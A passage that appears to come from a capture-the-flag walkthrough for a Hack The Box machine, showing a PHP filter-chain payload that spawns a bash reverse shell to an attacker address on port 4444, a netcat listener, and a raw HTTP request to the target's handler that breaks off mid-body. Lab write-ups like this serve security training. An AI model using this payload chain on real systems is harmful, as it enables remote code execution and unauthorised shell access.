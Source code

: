 ```bash
python php_filter_chain_generator.py --chain "<?php system('bash -c \"exec bash -i &>/dev/tcp/10.10.16.41/4444 <&1\"')?>"
```

create a listener

```bash
nc -lvnp 4444
```

execute

```Bash
GET /handler.php HTTP/1.1
Host: encoding.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.8
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 14636

{
  "action": "",
  "data": "",
```